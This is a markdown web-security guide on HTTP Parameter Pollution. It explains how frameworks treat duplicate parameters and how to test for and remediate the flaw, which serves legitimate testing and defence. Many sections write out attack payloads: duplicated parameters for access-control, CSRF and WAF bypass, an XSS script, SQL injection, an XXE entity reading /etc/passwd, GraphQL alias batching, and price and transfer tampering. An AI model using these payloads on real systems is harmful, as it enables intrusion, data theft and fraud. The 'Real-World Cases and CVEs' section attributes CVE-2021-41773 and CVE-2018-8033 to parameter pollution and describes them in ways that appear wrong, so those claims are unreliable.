




# HTTP Parameter Pollution (HPP)

## Mechanisms

HTTP Parameter Pollution (HPP) is a web attack technique that exploits how web applications and servers handle multiple occurrences of the same parameter name. When a web application receives duplicate parameters, different technologies process them differently:



### Parameter Handling Behaviors

- **ASP.NET/IIS**: Uses the first occurrence of the parameter
- **PHP/Apache**: Uses the last occurrence of the parameter
- **JSP/Tomcat**: Uses the first occurrence of the parameter
- **Perl CGI/Apache**: Concatenates all occurrences with a comma delimiter
- **Python/Flask**: Builds an array of values
- **Node.js/Express**: Uses the first occurrence by default

### Notes and modern caveats

- Node.js `express` uses either `querystring` (first-wins) or `qs` (arrays/last-wins). `app.set('query parser', 'extended')` changes behavior. Many middlewares assume `param[]=a&param[]=b` for arrays; duplicates without `[]` can produce surprising results.
- Spring MVC/Spring Boot binders often collect duplicates into lists; API gateways (Kong, APIGEE, NGINX, Cloudflare) may collapse/normalize differently than backends.
- JSON duplicate keys: most parsers accept last-wins; some gateways reject duplicates while backends accept, creating precedence gaps.
- Cookies: duplicate cookie names and comma/semicolon handling vary by proxies/agents.

HPP attacks leverage these inconsistencies in parameter handling across application layers, servers, proxies, and frameworks. Two main types of HPP exist:

1. **Server-side HPP**: Exploiting the server's handling of multiple parameters
2. **Client-side HPP**: Manipulating parameters that are later processed by client-side code

## Hunt

### Identifying HPP Vulnerabilities



#### Testing Parameter Handling

1. Identify forms and request parameters
2. Test duplicate parameters with different values:

   ```
   // Original request
   https://example.com/search?param=value1

   // Test request
   https://example.com/search?param=value1&param=value2
   ```

3. Observe application behavior
4. Identify which value is used (first, last, concatenated)

#### Vulnerable Scenarios

- **Parameter Overriding**: Search for places where parameters might be overridden
- **Request Proxies**: Applications forwarding requests to other services
- **Query String Processing**: Applications that process query strings manually
- **Multiple-Layer Processing**: Applications where parameters pass through multiple layers
- **OAuth/SAML Flows**: Authentication flows where parameters may be manipulated

### Testing Techniques

#### URL Parameter Pollution

```
# Original URL
https://target.com/page?parameter=original_value

# Polluted URL
https://target.com/page?parameter=original_value&parameter=malicious_value
```

#### Form Parameter Pollution

1. Intercept a legitimate form submission
2. Add duplicate parameters with different values:

   ```
   // Original POST body
   parameter=original_value

   // Modified POST body
   parameter=original_value&parameter=malicious_value
   ```

#### Hybrid Parameter Pollution

Combining parameters in both URL and POST body:

```
// URL
https://target.com/page?parameter=url_value

// POST body
parameter=body_value
```

#### JSON Parameter Pollution

Testing duplicate keys in JSON objects:

```json
{
  "parameter": "value1",
  "parameter": "value2"
}
```

Also test:

```http
Cookie: role=user; role=admin
X-Role: user
X-Role: admin
```

Observe which value the application trusts.

#### GraphQL Parameter Pollution

GraphQL queries can be polluted through aliasing, batch mutations, and duplicate variables:

```graphql
# Alias pollution - bypass rate limits
query {
  a: user(id: 1) {
    name
    email
  }
  b: user(id: 2) {
    name
    email
  }
  c: user(id: 3) {
    name
    email
  }
  # ... repeat to z or beyond
}

# Variable pollution
query ($id: Int!, $id: Int!) {
  user(id: $id) {
    name
  }
}

# Batch mutation pollution
mutation {
  a: redeemCoupon(code: "SAVE50") {
    success
  }
  b: redeemCoupon(code: "SAVE50") {
    success
  }
  c: redeemCoupon(code: "SAVE50") {
    success
  }
}
```

#### WebSocket Parameter Pollution

WebSocket connections can carry polluted parameters in the upgrade request or message payloads:

```http
GET /chat HTTP/1.1
Host: vulnerable.com
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
Sec-WebSocket-Version: 13

# URL with polluted params
ws://vulnerable.com/chat?token=valid&token=malicious&room=1&room=admin
```

```json
// WebSocket message payload pollution
{
  "action": "sendMessage",
  "room": "public",
  "room": "admin",
  "message": "test"
}
```

#### Parameter Array Notation Pollution

Different frameworks handle array notation differently, creating pollution opportunities:

```http
# PHP - expects brackets
param[]=value1&param[]=value2

# Express (qs parser) - bracket optional
param=value1&param=value2

# Rails - numeric indices
param[0]=value1&param[1]=value2

# Mixed notation confusion
param=single&param[]=array1&param[0]=indexed
```

**Testing strategy:**

1. Test with `param=a&param=b` (no brackets)
2. Test with `param[]=a&param[]=b` (array notation)
3. Test with `param[0]=a&param[1]=b` (indexed)
4. Mix notations to confuse parsers

#### Parameter Cloaking

Using encoding and case variations to bypass filters:

```http
# URL encoding variations
param=value1&par%61m=value2
param=value1&PARAM=value2

# Double/triple encoding
param=value1&par%2561m=value2

# Unicode normalization
param=value1&pαram=value2  # Greek alpha instead of 'a'

# Null byte injection (legacy)
param=value1&param%00=value2
```

## Vulnerabilities

### Common HPP Vulnerabilities



#### Access Control Bypass

- **Parameter Override**: Overriding security-related parameters
  ```
  https://example.com/admin?access=false&access=true
  ```
- **Permission Escalation**: Adding administrative parameters
  ```
  https://example.com/profile?user=victim&user=admin
  ```

#### Request Forgery Enhancement

- **CSRF Token Bypass**: Duplicating anti-CSRF tokens
  ```
  https://example.com/transfer?token=valid_token&token=random_value&amount=1000
  ```
- **SSRF Augmentation**: Overriding restricted URLs
  ```
  https://example.com/fetch?url=safe.com&url=internal.server
  ```

#### Data Manipulation

- **SQL Query Manipulation**: Influencing SQL queries
  ```
  https://example.com/products?category=1&category=1 OR 1=1
  ```
- **Filter Evasion**: Bypassing input filters
  ```
  https://example.com/search?q=safe_value&q=<script>alert(1)</script>
  ```

#### API Vulnerabilities

- **Parameter Precedence Confusion**: Different parameter precedence between API gateway and backend
- **GraphQL Parameter Pollution**: Duplicate variables in GraphQL queries
- **OAuth Parameter Manipulation**: Manipulating OAuth redirect flows
- **Header/Cookie Pollution**: Conflicting header values across CDN → WAF → app layers

### Impact Scenarios

#### Authentication Bypass

```
# Application authenticates using the first parameter but authorizes using the last
https://example.com/login?role=user&role=admin
```

#### WAF Bypass

```
# WAF checks the first parameter, backend processes the last
https://example.com/search?q=safe&q=<script>alert(1)</script>
```

#### XML External Entity (XXE) via HPP

```
# Bypassing XML filtering by parameter pollution
https://example.com/upload?xml=safe&xml=<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

#### API Gateway vs Backend Precedence

```
# Gateway picks first id, backend picks last id -> IDOR/AC bypass
/api/user?id=123&id=999
```

## Methodologies

### Tools

- **Burp Suite Pro**: Parameter pollution testing via Repeater and Intruder
- **OWASP ZAP**: HTTP fuzzer for parameter testing
- **Param Miner**: Extension for discovering hidden parameters
- **HPP Finder**: Specialized tool for HPP vulnerability detection
- **Burp Repeater (Parallel)**: Validate precedence across layers quickly
- **Schemathesis**: Fuzz OpenAPI-defined endpoints for duplicate-field handling

### Testing Methodology



#### Initial Discovery

1. Map all application parameters (URL, form, cookie, header)
2. Test each parameter with duplicates to observe behavior
3. Document how different application components handle parameter duplication

#### Exploiting HPP for Web Application Testing

1. **Access Control Testing**:

   ```
   # Test privileged parameter override
   https://example.com/admin?admin=false&admin=true

   # Test user context override
   https://example.com/profile?id=attacker&id=victim
   ```

2. **Security Control Bypass**:

   ```
   # Test CSRF token pollution
   token=legitimate&token=fake

   # Test parameter validation bypass
   param=valid_value&param=malicious_value
   ```

3. **API Security Testing**:

   ```
   # Test API parameter handling
   /api/v1/user?id=123&id=456

   # Test with different content types
   Content-Type: application/json
   {"id": "123", "id": "456"}
   ```

4. **HTTP Request Smuggling via HPP**:

   ```
   # Testing inconsistent interpretation
   Transfer-Encoding: chunked
   Transfer-Encoding: identity
   ```

5. **Header/Cookie Pollution**:

```
Cookie: session=abc; session=attacker
X-Forwarded-Proto: http
X-Forwarded-Proto: https
```

### Real-World Test Cases

#### E-commerce Application Testing

```
# Price manipulation
https://shop.com/checkout?price=100&price=1

# Quantity override
https://shop.com/cart?quantity=1&quantity=100
```

#### Banking Application Testing

```
# Amount parameter pollution
https://bank.com/transfer?amount=100&amount=10000

# Recipient override
https://bank.com/transfer?to=legitimate&to=attacker
```

#### CMS Admin Testing

```
# Permission bypass
https://cms.com/edit?permission=read&permission=write

# User impersonation
https://cms.com/admin?user=admin&user=victim
```

#### Social Sharing Button Parameter Pollution

A specific case of parameter pollution that affects social sharing functionality:

1. **Testing Methodology**:

   ```
   # Original share URL
   https://target.com/article

   # Polluted share URL
   https://target.com/article?u=https://attacker.com&text=malicious_text
   ```

2. **Common Parameters**:
   - `u` or `url`: The URL to be shared
   - `text`: Custom text for the share
   - `title`: Title of the shared content
   - `description`: Description for the shared content

3. **Impact**:
   - Redirect users to malicious sites
   - Modify shared content
   - Social engineering attacks
   - Brand reputation damage

4. **Testing Steps**:
   - Identify social sharing functionality
   - Analyze original share parameters
   - Append malicious parameters
   - Test each social platform separately
   - Verify if malicious content appears in share preview

## Real-World Cases and CVEs

### Notable Parameter Pollution Vulnerabilities

1. **CVE-2021-41773 - Apache HTTP Server Path Traversal**:
   - Parameter pollution in URL path normalization
   - Multiple encoded path segments bypassed access controls
   - Impact: Remote code execution via CGI scripts

2. **CVE-2018-8033 - Apache OFBiz**:
   - Parameter pollution in authentication bypass
   - Duplicate parameters in login form bypassed security checks
   - Impact: Administrative access without credentials

3. **HPP in OAuth Implementations (Multiple Vendors)**:
   - Duplicate `redirect_uri` parameters in OAuth flows
   - Gateway checked first parameter, backend used last
   - Impact: Account takeover via malicious redirect

4. **API Gateway vs Backend Precedence (Bug Bounty)**:
   - AWS API Gateway processed first `id` parameter
   - Backend Lambda function processed last `id` parameter
   - Impact: IDOR allowing access to other users' data

5. **GraphQL Rate Limit Bypass (Multiple Platforms)**:
   - Aliased queries bypassed per-query rate limits
   - 100+ identical operations in single request
   - Impact: Account enumeration, resource exhaustion

6. **WAF Bypass via HPP (Generic)**:
   - WAF inspected first parameter for XSS/SQLi
   - Backend processed last parameter
   - Impact: Complete WAF bypass for injection attacks

### Impact Ratings

- **Critical**: HPP enables authentication/authorization bypass or RCE
- **High**: HPP allows WAF bypass, payment manipulation, or privilege escalation
- **Medium**: HPP bypasses rate limiting or validation controls
- **Low**: HPP causes logic errors with minimal security impact

### Common Bug Bounty Targets

- E-commerce checkout flows (price/quantity parameters)
- OAuth/SAML redirect parameters
- API endpoints with pagination/filtering
- File upload with filename/path parameters
- Social sharing functionality
- Payment processing integrations
- Multi-step wizards/forms

## Remediation Recommendations

- **Consistent Parameter Handling**: Implement consistent handling across all application layers
- **Parameter Validation**: Validate parameters before processing
- **Framework Awareness**: Understand how your framework handles duplicate parameters
- **Web Application Firewall**: Configure WAF to detect parameter pollution attempts
- **API Gateway Rules**: Implement rules to reject duplicate parameters
- **Canonicalization**: Convert parameters to a standard form before processing
- **Schema Enforcement**: Use JSON Schema/OpenAPI validation to reject duplicates and unexpected fields
- **Drop Duplicates at the Edge**: Normalize parameters at CDN/API gateway and log events
- **Explicit Parser Settings**: e.g., in Express set a custom query parser and explicitly forbid duplicates without `[]` suffix for arrays
- **GraphQL Query Complexity Limits**: Enforce maximum query depth and alias counts
- **WebSocket Frame Validation**: Parse and validate WS message structures consistently with HTTP parameter handling
